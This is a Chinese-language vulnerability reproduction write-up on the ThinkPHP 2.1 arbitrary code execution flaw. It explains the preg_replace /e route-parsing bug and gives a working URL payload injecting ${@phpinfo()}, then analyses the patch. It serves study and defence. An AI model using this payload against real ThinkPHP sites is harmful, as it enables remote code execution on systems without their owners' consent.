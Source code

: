 categories:
- cve复现
tags:
- cve复现
title: ThinkPHP 2.x任意代码执行漏洞
---
# ThinkPHP 2.x任意代码执行漏洞



## 影响范围

thinkphp 2.1

官网的thinkphp 2.2已经修复了



## 漏洞复现

漏洞位置

![image154](https://i.loli.net/2020/01/30/8UW5mxvARaoFlPX.png)

路由解析处

`$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));`

这个preg_replace有点古怪,没有用`/`来包围搜索模式而是用`@`,查找关于preg的文档发现

>当使用 PCRE 函数的时候，模式需要由*分隔符*闭合包裹。分隔符可以使任意非字母数字、非反斜线、非空白字符。   
>
>  经常使用的分隔符是正斜线(*/*)、hash符号(*#*)   以及取反符号(*~*)。下面的例子都是使用合法分隔符的模式。    
>
>```
>/foo bar/
>#^[^0-9]$#
>+php+
>%[a-zA-Z0-9_-]%
>```

替换常量,这个就变成了

`preg_replace('@(\w+)/([^\/\/]+)@e', '$var[\'\\1\']="\\2";', implode('/',$paths));`

查看preg_replace的介绍发现

>当使用被弃用的 e 修饰符时, 这个函数会转义一些字符(即：'、"、 \ 和 NULL) 然后进行后向引用替换。当这些完成后请确保后向引用解析完后没有单引号或双引号引起的语法错误(比如： 'strlen(\'$1\')+strlen("$2")')。确保符合PHP的 字符串语法，并且符合eval语法。因为在完成替换后，引擎会将结果字符串作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串。 

执行`$replacement`(第二个参数)前,会先替换掉引用

我们可以看到,`$replacement`用双引号来包围引用`\\2`,会导致命令执行



构造

```php
$paths=array(
	'xxxx',
    '${phpinfo()}'
);
```

则`'$var[\'\\1\']="\\2";'`变为`$var['xxxx']="${phpinfo()}";`

从而导致命令执行

于是构造payload

` [http://127.0.0.1/public/index.php?s=/index/index/name/$%7B@phpinfo()%7D](http://127.0.0.1/public/index.php?s=/index/index/name/${@phpinfo()}) `



## 补丁分析

![image1293](https://i.loli.net/2020/01/30/9AlHbyKzaBOJXnR.png)



用单引号来包围所有引用就可以避免命令执行



## 参考

 https://github.com/vulhub/vulhub/tree/master/thinkphp/2-rce 

